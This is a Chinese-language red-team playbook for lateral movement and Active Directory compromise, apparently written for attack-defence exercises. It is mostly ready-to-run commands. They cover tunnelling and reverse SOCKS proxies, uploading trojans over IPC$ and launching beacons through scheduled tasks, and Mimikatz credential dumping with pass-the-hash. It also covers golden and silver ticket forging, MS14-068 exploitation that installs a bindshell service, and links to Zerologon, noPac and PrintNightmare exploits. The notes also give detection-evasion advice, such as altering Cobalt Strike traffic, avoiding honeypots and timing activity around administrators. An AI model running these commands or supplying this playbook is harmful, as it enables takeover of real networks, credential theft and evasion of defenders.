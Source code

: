 横向移动
================================

什么是内网横向攻击
--------------------------------
当通过外部打点进入到目标内网时，需要利用现有的资源尝试获取更多的凭证与权限，进而达到控制整个内网、拥有最高权限、发动 APT （高级持续性威胁攻击）等目地。
在攻防演练中，攻击方需要在有限的时间内近可能的获取更多的权限，因此必须具备高效的横向攻击思路。本次对内网横向攻击的技巧和方法进行总结。

注意事项
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 权限丢失
	webshell被发现，网站关站，木马后门被发现，主机改为不出网环境等。当遇到这些问题，需要做好应对措施，多方位的做好权限维持。
- 内网防火墙与杀毒软件
	内网防火墙，内网态势感知，内网流量监控，ids，ips等安全设备都会给横向攻击的开展造成很大的麻烦，应对措施有，对传输流量进行加密，修改cs流量特征，禁止大规模内网探测扫描等等。
- 内网蜜罐主机，蜜罐系统
	近年来攻防演练越来越多的防守方启用蜜罐主机，蜜罐系统，一旦蜜罐捕捉到攻击行为，并及时发现和处置，会导致权限丢失，前功尽弃。
- 运维管理人员
	内网横向攻击尽可能与运维管理人员的工作时间错开，尽量避免长时间登录administrator用户，如激活guest用户登录。降低被发现的几率。

windwos内网横穿
--------------------------------

常见端口
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 445
	- MS17-010，永恒之蓝
	- 远程本地认证：``net use \\192.168.1.2 /user:a\username password``
	- 其中a为域或工作组下的机器命名
+ 137/138/139
	- NetBios端口，137，138为UDP端口，用于内网传输文件
	- NetBios/SMB服务获取通过139端口
+ 135
	- 使用DCOM和RPC服务，用于WMI管理工具的远程操作
+ 53
	- DNS域传送漏洞
	- DNS协议隐秘传输
+ 389
	- LDAP
+ 88
	- Kerberos服务，监听KDC的票据请求，用户黄金票据和白银票据的伪造
+ 5985
	WinRM服务

端口转发
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ nc
	- 端口扫描
		+ 默认TCP：``nc -z -v -n 172.31.100.7 21-25``
	- 端口转发
		+ 将本地9000端口数据转发到192.168.100.2/8000：``mkfifo tmp/fifo|cat /tmp/fifo | nc 192.168.100.2 8000 | nc -l 9000 > /tmp/fifo`` 
		+ 访问：``nc -n 192.168.1.102 9000`` 
+ socat
	- 显示本地文件
		+ ``socat - /etc/sysctl.conf`` 
	- 监听本地端口
		+ ``socat TCP-LISTEN:12345 -`` 
	- UNIX DOMAIN域套接字转成TCP SOCKET
		+ ``socat TCP-LISTEN:12345,reuseaddr,fork UNIX-CONNECT:/data/deCOREIDPS/unix.domain`` 
	- 端口转发
		+ ``对于所有15000端口的TCP访问，一律转发到 server.wesnoth.org:15000 上`` 
		+ ``socat -d -d -lf /var/log/socat.log TCP4-LISTEN:15000,reuseaddr,fork,su=nobody TCP4:server.wesnoth.org:15000`` 
		+ ``tcp：nohup socat TCP4-LISTEN:2333,reuseaddr,fork TCP4:233.233.233.233:6666 >> /root/socat.log 2>&1 &`` 
		+ ``udp：nohup socat UDP4-LISTEN:2333,reuseaddr,fork UDP4:233.233.233.233:6666 >> /root/socat.log 2>&1 &`` 
+ netsh
	- 前提：IP Helper服务必须启动；管理员权限；
	- 查看已存在端口转发：``netsh interface portproxy show all``
	- 增加监听8888端口转发到3389端口：``netsh interface portproxy add v4tov4 listenport=8888 listenaddress=0.0.0.0 connectaddress=0.0.0.0 connectport=3389``
	- 删除转发端口：``netsh interface portproxy del v4tov4 listenport=8888 listenaddress=0.0.0.0``
	- 删除所有转发端口：``netsh interface portproxy reset``
+ portfwd
	- MSF自带工具
	- 将192.168.100.4的8888端口，映射到当前主机的8899端口
	- ``portfwd add -l 8899 -r 192.168.100.4 -p 8888``
+ proxychains
	- 修改配置/etc/proxychains.conf
		::
		
			[ProxyList]
			socks5 172.20.0.59 7222
	- 直接在程序前增加proxychains
	- ``sudo proxychains apt-get update``
	- 注意：socks代理不支持UDP协议，不支持icmp/ping协议，nmap使用受限。
+ EarthWorm
	- 正向socks v5代理
		+ ``./ew -s ssocksd -l 1080``
	- 反向socks v5代理
		+ 公网机器运行：``./ew -s rcsocks -l 1080 -e 8888``
		+ 内网机器运行：``./ew -s rssocks -d 1.1.1.1 -e 8888``
		+ 通过公网1080端口访问内网机器
+ frp
	- 官网下载：https://github.com/fatedier/frp/releases
	- 示例
		::
		
			跳板机（假设IP为172.20.0.59/192.168.100.3双网卡）上frps.ini配置：
			[common]
			bind_port = 7111
			
			执行命令：frps.exe -c frps.ini
			
			目标机器（假设IP为192.168.100.4/128.0.0.2双网卡）上frpc.ini配置：
			[common]
			server_addr = 192.168.100.3
			server_port = 7111

			[plugin_1]
			type = tcp
			remote_port = 7222
			plugin = socks5
			
			执行命令：frpc.exe -c frpc.ini
			
			这样再kali里面设置proxychains代理/etc/proxychains.conf：
			[ProxyList]
			socks5 172.20.0.59 7222
			在172.20.0.1/24网段机器使用nmap直接对内网128网段进行扫描：
			proxychains nmap -sT -Pn -p- 128.0.0.1/24
	- 相关问题
		+ frpc客户端连接会提示 login to server failed: EOF
			::
			
				修改frpc.ini文件，在common节点，添加tls_enable = true
+ NPS【综合】
	- 一款轻量级、高性能、功能强大的内网穿透代理服务器。支持tcp、udp、socks5、http等几乎所有流量转发。
	- 访问内网网站、本地支付接口调试、ssh访问、远程桌面，内网dns解析、内网socks5代理等等，并带有功能强大的web管理端。
	- 项目地址：``https://github.com/ehang-io/nps``
	- 帮助文档：``https://ehang.io/nps/documents``
+ Goproxy 【综合】
	- Goproxy 是 golang 实现的高性能 http ,https ,websocket ,tcp ,socks5 代理服务器。
	- 项目地址：``https://github.com/snail007/goproxy``
	- 帮助文档：``https://snail007.host900.com/goproxy/manual/zh/#/``
+ Stowaway【多级】
	- Stowaway是一个利用go语言编写、专为渗透测试工作者制作的多级代理工具。
	- 项目地址：``https://github.com/ph4ntonn/Stowaway``
+ Neo-reGeorg【Webshell】
	- Neo-reGeorg 是一个旨在积极重构 reGeorg 的项目。
	- 项目地址：``https://github.com/L-codes/Neo-reGeorg``

IPC$共享利用
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 介绍：IPC$(Internet Process Connection)是共享”命名管道”的资源，它是为了让进程间通信而开放的命名管道，也就是两个进程之间可以利用它产生数据交互，可以通过验证用户名和密码获得相应的权限，在远程管理计算机和查看计算机的共享资源时使用。
+ 利用条件
	- SMB协议（445端口）开启
	- NETBios（139端口）开启
	- 弱口令：暴力破解
+ 常用命令
	::
	
		#建立空连接
		net use \\127.0.0.1\ipc$ "" /user:""
		权限很低，基本没什么用，在Windows2003以后，空连接什么权限都没有；
		有些主机的 Administrator 管理员的密码为空，那么我们可以尝试连接；但是默认的服务器配置也会阻止空密码的连接。

		#建立完整的用户名，密码连接
		net use \\127.0.0.1\ipc$ "password" /user:"username"

		#删除IPC$连接
		net use \\127.0.0.1\ipc$ /del

		#映射路径  (将对方的c盘映射为自己的z盘，其他盘类推)
		net use z: \\127.0.0.1\c$ "密码" /user:"用户名"

		#访问/删除路径
		net use z: \\127.0.0.1\c$   #直接访问
		net use c: /del     #删除映射的c盘
		net use * /del      #删除全部,会有提示要求按y确认


		#域中相关命令
		net use\\去连接的IP地址\ipc$ "域成员密码"  /user:域名\域成员账号
		net use\\192.168.100.1\ipc$ "admin123.." /user:momaek.com\win2003

		dir \\momaek.com\c$

		copy test.exe \\momaek.com\c$

		net use \\192.168.100.1\ipc$ /del

		net share       #查看自己的共享
		net view \\IP   #查看target-IP的共享
		netstat -A IP   #获取target-IP的端口列表

		netstat -ano | findstr "port"  #查看端口号对应的PID
		tasklist | findstr "PID"       #查看进程号对应的程序

+ 利用方式
	- 构建连接: ``net use \\127.0.0.1\IPC$ "" /user:"admintitrators"``
	- 上传木马: ``copy test.exe \\127.0.0.1\admin$``
	- 查看时间: ``net time \\127.0.0.1``
	- 创建定时任务: ``at \\127.0.0.1 11:05 test.exe``
+ 其它
	- 查看文件: ``dir \\192.168.52.130\c$``
	- 盘符映射: ``net use k: \\192.168.52.130\c$ /u:"administrator" "123456"``
	- 查看进程: ``tasklist /S 192.168.52.130 /U administrator -P 123456``
	- 执行定时任务: ``at \\192.168.135.5 13:20:00 cmd.exe /c "c:\beacon.exe"``
	- 执行定时任务
		::
			
			schtasks /create /s 192.168.52.130 /u administrator /p 123456 /tn test_crow /tr c:/artifact.exe  /sc once /st 15:29
			schtasks /query /s 192.168.52.130 /u administrator /p 123456 /tn test_crow
			在目标主机上创建一个名为test_crow的计划任务，启动程序为c:/beacon.exe ，启动权限为system，启动时间为每隔一小时启动一次
			schtasks /create /s 192.168.52.130 /u administrator /p 123456 /tn test_crow /sc HOURLY /mo 1 /tr c:/test.exe /ru system /f
			其他启动时间参数：
			/sc onlogon  用户登录时启动
			/sc onstart  系统启动时启动
			/sc onidle   系统空闲时启动
			#删除任务计划
			schtasks /delete /s 192.168.52.130 /u administrator /p 123456 /tn test_crow 

域渗透
--------------------------------

域
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
域指将网络中多台计算机逻辑上组织到一起，进行集中管理的逻辑环境。域是组织与存储资源的核心管理单元，在域中，至少有一台域控制器，域控制器中保存着整个域的用户帐号和安全数据库。

+ Active Directory
	- 活动目录（AD）是面向Windows Server的目录服务。Active Directory存储了有关网络对象的信息，并且让管理员和用户能够查找和使用这些信息。

+ NTLM认证
	- NTLM是NT LAN Manager的缩写，NTLM是基于挑战/应答的身份验证协议，是 Windows NT 早期版本中的标准安全协议，基本流程为：
		::
		
			客户端在本地加密当前用户的密码成为密码散列
			客户端向服务器明文发送账号
			服务器端产生一个16位的随机数字发送给客户端，作为一个challenge
			客户端用加密后的密码散列来加密challenge，然后返回给服务器，作为response
			服务器端将用户名、challenge、response发送给域控制器
			域控制器用这个用户名在SAM密码管理库中找到这个用户的密码散列，然后使用这个密码散列来加密chellenge
			域控制器比较两次加密的challenge，如果一样那么认证成功，反之认证失败
+ kerboser认证
	- 见认证机制章中Kerberos一节。
+ PTH攻击
	- 利用LM或NTLM的值进行的渗透测试。
		::
		
			privilege::debug # 提升权限
			sekurlsa::logonpasswords # 抓取密码
			sekurlsa::pth /user:administrator /domain:192.168.3.32 /ntlm:518b98ad4178a53695dc997aa02d455c
	- 如果禁用了 ntlm 认证，PsExec 无法利用获得的 ntlm hash 进行远程连接，但是使用mimikatz还是可以攻击成功。
	- 打KB2871997补丁前任意用户都可以连接，补丁后只能administrator用户才可以连接。
+ PTK攻击
	- 利用的 ekeys aes256 进行的渗透测试。
		::
		
			sekurlsa::ekeys
	- 利用条件：安装了KB2871997补丁；且系统禁用了NTLM的时候。
	- 攻击示例
		::
		
			privilege::debug # 提升权限
			sekurlsa::logonpasswords # 抓取密码
			sekurlsa::pth /user:域用户名 /domain:域名 /aes256:aes256值
			sekurlsa::pth /user:administrator /domain:god /aes256:1811e5811877a782b6c11e2b0165ffb88d40a633f922a012372095a43d72d7ae
			成功后会弹出一个新得cmd窗口，访问远程主机服务。
			net use \\192.168.3.32
			dir \\192.168.3.32\c$\
			copy 4444.exe \\192.168.3.32\c$\  # 上传木马到目标机器中
			sc \\192.168.3.32 create bindshell binpath= "c:\4444.exe" # 创建shell服务并绑定文件
			sc \\192.168.3.32 start bindshell # 启动bindshell服务
+ PTT攻击
	- 利用的票据凭证 **TGT** 或者 **ST** 进行的渗透测试，攻击者可以通过使用域账号的明文密码、NTLM-HASH、ASE（Account Session Key），或者直接伪造获取相关票据。
	- 三种常见的攻击：MS14-068、Golden Ticket、SILVER ticket，简单来说就是将连接合法的票据注入到内存中实现连接。缺点：票据是有效期的，一般默认为10小时。
	- 域控HASH伪造票据攻击
		+ 项目地址：``https://github.com/gentilkiwi/kekeo``
		+ 根据拿到的域控HASH，通过伪造票据进行连接
			::
			
				生成票据：
				shell kekeo "tgt::ask /user:Administrator /domain:god.org /ntlm:ccef208c6485269c20db2cad21734fe7" "exit"
				将生成的票据文件导入内存：
				kekeo "kerberos::ptt TGT_Administrator@GOD.ORG_krbtgt~god.org@GOD.ORG.kirbi" "exit"
				查看导入的票据：klist
				连接域控：dir \\owa2010cn-god\c$
	- 缓存票据攻击
		+ 利用历史遗留的票据重新认证尝试，成功与否看当前主机有没有被目标主机连接过。
		+ 利用过程
			::
			
				tlist查看当前票据（假设存在域管用户留下的历史票据）
				导出票据文件：mimikatz sekurlsa::tickets /export
				再次将票据导入到内存：
				mimikatz kerberos::ptt TGT_Administrator@GOD.ORG_krbtgt~god.org@GOD.ORG.kirbi
				连接目标机器：
				net use \\owa2010cn-god\c$
				dir \\OWA2010CN-GOD\c$
	- 黄金票据攻击
		+ 只要获取Krbtgt的NTLM哈希值（即TGS密钥），就可以伪造任意的TGT，进而与TGS交互。
		+ 有了金票后,就跳过AS 验证,因为 Krbtgt只有域控制器上面才有，所以使用黄金凭据意味着你之前拿到过域控制器的权限，黄金凭据可以理解为一个后门。
		+ 前提：需要伪造的域管理员用户名，完整的域名，域 SID，krbtgt 的 NTLM 哈希值
		+ 利用过程
			::
			
				kerberos::golden /user:administrator /domain:whoamianony.org /sid:S-1-5-21-1315137663-3706837544-1429009142 /krbtgt:6be58bfcc0a164af2408d1d3bd313c2a /ticket:ticket.kirbi
				即：kerberos::golden /user:需要伪造的域管理员用户名 /domain:域名 /sid:域sid /krbtgt: krbtgt用户的Hash /ticket:ticket.kirbi
				票据导入内存：kerberos::ptt ticket.kirbi
				访问域控：dir \\DC\c$
	- 白银票据攻击
		+ 即伪造的TGS。当获取需要访问的目标服务器NTLM HASH后，就可以利用 Mimikatz 伪造TGS，直接去访问目标服务器。
		+ 前提：域名,域 SID,目标服务器的 FQDN,可利用的服务,服务账号的 NTLM 哈希值,要伪造的用户名 
		+ 利用过程
			::
			
				kerberos::golden /domain:whoamianony.org /sid:S-1-5-21-1315137663-3706837544-1429009142 /target:DC.whoamianony.org /rc4:6decb5d75eb5727d8535e67680b52571 /service:cifs /user:administrastor /ptt
				kerberos::golden /domain:域名 /sid:域 SID /target:FQDN /rc4:server 机器的哈希 /service:可利用的服务 /user:要伪造的用户名 /ptt
				直接访问域控：
				dir \\DC.whoamianony.org\c$

判断是否有域
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ systeminfo
	- ``systeminfo | findstr 域:``
	- ``此方法获取到域名信息``
+ net time方法
	::

		1.存在域，但当前用户不是域用户，提示说明权限不够
			C:\Users>bypass>net time /domain
			发生系统错误 5 
			拒绝访问。

		2.存在域，并且当前用户是域用户
			C:\Users\Administrator>net time /domain
			\\dc.test.com 的当前时间是 2020/10/23 21:18:37
			
			命令成功完成。
		注：dc即域控主机的计算机名。

		3.当前网络环境为工作组，不存在域
			C:\Users\Administrator>net time /domain
			找不到域 WORKGROUP 的域控制器。

搜集域信息
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ meterpreter：``run post/windows/gather/enum_domain``
+ NSE脚本
	- smb-enum-domains.nse:对域控制器进行信息收集，可以获取主机信息、用户、可使用密码策略的用户等
	- smb-enum-users.nse:在进行域渗透时，如获取了域内某台主机权限，但权限有限，无法获取更多的域用户信息，可借助此脚本对域控制器进行扫描
	- smb-enum-shares.nse:遍历远程主机的共享目录
	- smb-enum-processes.nse:对主机的系统进程进行遍历，通过此信息，可知道目标主机运行着哪些软件
	- smb-enum-sessions.nse:获取域内主机的用户登陆会话，查看当前是否有用户登陆，且不需要管理员权限
	- smb-os-discovery.nse:收集目标主机的操作系统、计算机名、域名、域林名称、NetBIOS机器名、NetBIOS域名、工作组、系统时间等信息
+ 查看域
	- 查看域名列表：``net view /domain``
	- 查看域test主机列表：``net view /domain:test``
	- 注：computer browser服务未启动，net view命令报6118错误。
+ 查看域内用户组列表：``net group /domain``
+ 查看域内用户组信息：``net group "Enterprise Admins" /domain``
+ 查看域密码策略信息：``net accounts /domain``
+ 查看域信任信息：``nltest /domain_trusts``

域控主机IP
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ ipconfig查看dns服务器地址
+ nslookup 域名
+ ping 域名

搜集域用户和管理员信息
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 当前当前主机当前登录的域和用户：``net config workstation``
+ 查询域用户列表：``net user /domain``
+ 查询域用户详细信息：``wmic useraccount get /all``
+ UserEnum
	- 项目地址：``https://github.com/sensepost/UserEnum``
		::
		
			python2 -m pip install -r requirements.txt
			python2 -m pip install asn1tools==0.100.0
	- 域用户爆破：``python2 UserEnum_LDAP.py 172.16.0.106 hack.lab ~/aduser.txt``
+ kerbrute_linux_amd64
	- 项目地址：``https://github.com/ropnop/kerbrute``
	- 域用户爆破：``./kerbrute_linux_amd64 userenum -d hack.lab ~/aduser.txt --dc 172.16.0.106``
+ kerbrute
	- 项目地址：``https://github.com/TarlogicSecurity/kerbrute``
	- pip方式：``sudo pip3 install kerbrute``
	- 域用户爆破：``kerbrute -users ./aduser.txt -domain hack.lab -dc-ip 172.16.0.106``

查找域控制器
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 查看域控制器主机名
	- ``nltest /DCLIST:teamssix``
	- ``nslookup -type=SRV _ldap._tcp``
	- ``netdom query pdc``
	- ``nbtstat -A 127.0.0.1``
+ 查看域控制器组：``net group "domain controllers" /domain``
+ 定位域管理员
	- PsLoggedOn：``https://docs.microsoft.com/en-us/sysinternals/downloads/psloggedon``
	- PowerView
		+ Recon目录下：``https://github.com/PowerShellMafia/PowerSploit/``
		+ 打开powershell命令行
		+ 执行 ``Import-Module PowerView.ps1``
		+ 执行 ``Invoke-UserHunter``
		+ 主要模块
			::
			
				Get-NetDomain:获取当前用户所在域名称
				Get-NetUser：获取所有用户的详细信息
				Get-NetDomainController：获取所有域控制器的信息
				Get-NetComputer：获取域内所有机器的详细信息
				Get-NetOU：获取域中的OU信息
				Get-NetGroup：获取所有域内组和组成员信息
				Get-NetFileServer：根据SPN获取当前域使用的文件服务器信息
				Get-NetShare：获取当前域内所有的网络共享信息
				Get-NetSession：获取指定服务器的会话
				Get-NetRDPSession：获取指定服务器的远程连接
				Get-NetProcess：获取远程主机的进程
				Get-UserEvent：获取指定用户的日志
				Get-ADObject：获取活动目录的对象
				Get-NetGPO：获取域内所有组的策略对象
				Get-DomainPolicy：获取域默认策略或域控制器策略
				Invoke-UserHunter：获取域用户登陆的计算机信息及该用户是否有本地管理员权限
				Invoke-ProcessHunter：通过查询域内所有的机器进程找到特定用户
				Invoke-UserEventHunter：根据用户日志查询某域用户登陆过哪些域机器
	- ADFindUsersLoggedOn
		+ ``https://github.com/chrisdee/Tools/tree/master/AD/ADFindUsersLoggedOn``
		+ ``PVEFindADUser.exe -current``

获取域用户hash
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ :ref:`auth/windows:Kerberos认证过程`

相关漏洞
--------------------------------

可直接拿域控
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ ms17-010(CVE-2017-0143)：永恒之蓝
+ MS14-068(CVE-2014-6324)
	- Kerberos 校验和漏洞：用户在向 Kerberos 密钥分发中心（KDC）申请TGT（由票据授权服务产生的身份凭证）时，可以伪造自己的 Kerberos 票据
	- 利用条件
		+ 小于2012R2的域控，没有打MS14-068的补丁(KB3011780)
		+ 拿下一台加入域的计算机
		+ 有这台域内计算机的域用户密码和Sid
	- 利用效果：将任意域用户提升到域管权限
	- 相关EXP
		+ https://github.com/abatchy17/WindowsExploits/tree/master/MS14-068
	- 利用过程
		::
		
			先获取当前机器SID
			whoami/user
			-u指定当前用户，-s 即SID，-p 当前用户密码，-d 域控主机ip
			shell ms14-068.exe -u webadmin@god.org -s S-1-5-21-1218902331-2157346161-1782232778-1132 -d 192.168.3.21 -p admin!@#45
			执行该命令后可以看到当前目录生成了一个票据文件。
			首先清除下票据：klist purge
			使用mimikatz导入票据，TGT_webadmin@god.org.ccache即生成的票据文件。
			mimikatz kerberos::ptc TGT_webadmin@god.org.ccache
			连接域控主机，上线木马。
			net use \\OWA2010CN-GOD\c$
			copy 4444.exe \\OWA2010CN-GOD\c$
			sc \\OWA2010CN-GOD create binshel1 binpath= "c:\4444.exe"
			sc \\OWA2010-GOD start binshel1
+ CVE-2020-1472
	- 可将域控机器用户的password设置为空
	- 利用效果：可利用此漏洞获取域管访问权限
	- 影响版本
		::
		
			Windows Server 2008 R2 for x64-based Systems Service Pack 1
			Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
			Windows Server 2012Windows Server 2012 (Server Core installation)
			Windows Server 2012 R2Windows Server 2012 R2 (Server Core installation)
			Windows Server 2016Windows Server 2016 (Server Core installation)
			Windows Server 2019Windows Server 2019 (Server Core installation)
			Windows Server, version 1903 (Server Core installation)
			Windows Server, version 1909 (Server Core installation)Windows Server, version 2004 (Server Core installation)
	- 风险：导致目标主机脱域
	- 相关EXP
		+ Impacket工具包：https://github.com/SecureAuthCorp/impacket.git
		+ 检查是否存在漏洞：https://github.com/SecuraBV/CVE-2020-1472.git
		+ exp：https://github.com/dirkjanm/CVE-2020-1472
		+ exp：https://github.com/risksense/zerologon
		+ https://github.com/blackarrowsec/redteam-research/tree/master/CVE-2020-1472
+ CVE-2021-42287&42278
	- AD域计算机账户认证漏洞：攻击者可利用该漏洞造成将域内的普通用户权限提升到域管理员权限
	- 利用效果：将任意域用户提升到域管权限
	- 影响版本
		::
		
			Windows Server 2012 R2 (Server Core installation)
			Windows Server 2012 R2
			Windows Server 2012 (Server Core installation)
			Windows Server 2012
			Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
			Windows Server 2008 R2 for x64-based Systems Service Pack 1
			Windows Server 2008 for x64-based Systems Service Pack 2 (Server Core installation)
			Windows Server 2008 for x64-based Systems Service Pack 2
			Windows Server 2008 for 32-bit Systems Service Pack 2 (Server Core installation)
			Windows Server 2008 for 32-bit Systems Service Pack 2
			Windows Server 2016 (Server Core installation)
			Windows Server 2016
			Windows Server, version 20H2 (Server Core Installation)
			Windows Server, version 2004 (Server Core installation)
			Windows Server 2022 (Server Core installation)
			Windows Server 2022
			Windows Server 2019 (Server Core installation)
			Windows Server 2019
	- 利用条件
		+ 一个普通域成员帐户
		+ 域用户有创建机器用户的权限（一般默认权限）
		+ DC未打补丁KB5008380或KB5008602
	- 相关EXP
		+ https://github.com/WazeHell/sam-the-admin
		+ https://github.com/cube0x0/noPac
+ CVE-2021-1675/CVE-2021-34527
	- Windows Print Spooler权限提升漏洞
	- 利用效果：未经身份验证的远程攻击者可利用该漏洞以SYSTEM权限在域控制器上执行任意代码，从而获得整个域的控制权
	- 影响版本
		::
		
			Windows Server 2012 R2 (Server Core installation)
			Windows Server 2012 R2
			Windows Server 2012 (Server Core installation)
			Windows Server 2012
			Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
			Windows Server 2008 R2 for x64-based Systems Service Pack 1
			Windows Server 2008 for x64-based Systems Service Pack 2 (Server Core installation)
			Windows Server 2008 for x64-based Systems Service Pack 2
			Windows Server 2008 for 32-bit Systems Service Pack 2 (Server Core installation)
			Windows Server 2008 for 32-bit Systems Service Pack 2
			Windows RT 8.1
			Windows 8.1 for x64-based systems
			Windows 8.1 for 32-bit systems
			Windows 7 for x64-based Systems Service Pack 1
			Windows 7 for 32-bit Systems Service Pack 1
			Windows Server 2016 (Server Core installation)
			Windows Server 2016
			Windows 10 Version 1607 for x64-based Systems
			Windows 10 Version 1607 for 32-bit Systems
			Windows 10 for x64-based Systems
			Windows 10 for 32-bit Systems
			Windows Server, version 20H2 (Server Core Installation)
			Windows 10 Version 20H2 for ARM64-based Systems
			Windows 10 Version 20H2 for 32-bit Systems
			Windows 10 Version 20H2 for x64-based Systems
			Windows Server, version 2004 (Server Core installation)
			Windows 10 Version 2004 for x64-based Systems
			Windows 10 Version 2004 for ARM64-based Systems
			Windows 10 Version 2004 for 32-bit Systems
			Windows 10 Version 21H1 for 32-bit Systems
			Windows 10 Version 21H1 for ARM64-based Systems
			Windows 10 Version 21H1 for x64-based Systems
			Windows 10 Version 1909 for ARM64-based Systems
			Windows 10 Version 1909 for x64-based Systems
			Windows 10 Version 1909 for 32-bit Systems
			Windows Server 2019 (Server Core installation)
			Windows Server 2019
			Windows 10 Version 1809 for ARM64-based Systems
			Windows 10 Version 1809 for x64-based Systems
			Windows 10 Version 1809 for 32-bit Systems
	- 利用条件
		+ 目标开启Spooler服务；
		+ 一个普通权限的域账户；
		+ 创建的smb服务允许匿名访问，即目标可以直接获取到文件。
	- 相关EXP
		+ https://github.com/cube0x0/CVE-2021-1675
		+ https://github.com/calebstewart/CVE-2021-1675
		+ https://github.com/numanturle/PrintNightmare
+ CVE-2019-1040
	- Microsoft Windows NTLM认证漏洞
	- 利用效果：攻击者在仅有一个普通域账号的情况下可以远程控制 Windows 域内的任何机器，包括域控服务器。
	- 影响版本
		::
			
			Windows 7 sp1 至Windows 10 1903
			Windows Server 2008 至Windows Server 2019
	- 利用条件
		+ Exchange服务器可以是任何版本。唯一的要求是，在以共享权限或RBAC模式安装，Exchange默认具有高权限。
		+ 域内任意账户。
		+ CVE-2019-1040漏洞的实质是NTLM数据包完整性校验存在缺陷，故可以修改NTLM身份验证数据包而不会使身份验证失效。而此攻击链中攻击者删除了数据包中阻止从SMB转发到LDAP的标志。
		+ 构造请求使Exchange Server向攻击者进行身份验证，并通过LDAP将该身份验证中继到域控制器，即可使用中继受害者的权限在Active Directory中执行操作。比如为攻击者帐户授予DCSync权限。
		+ 如果在可信但完全不同的AD林中有用户，同样可以在域中执行完全相同的攻击。
	- 攻击链
		+ 使用域内任意帐户，通过SMB连接到被攻击ExchangeServer，并指定中继攻击服务器。同时必须利用SpoolService错误触发反向SMB链接。
		+ 中继服务器通过SMB回连攻击者主机，然后利用ntlmrelayx将利用CVE-2019-1040漏洞修改NTLM身份验证数据后的SMB请求据包中继到LDAP。
		+ 使用中继的LDAP身份验证，此时Exchange Server可以为攻击者帐户授予DCSync权限。
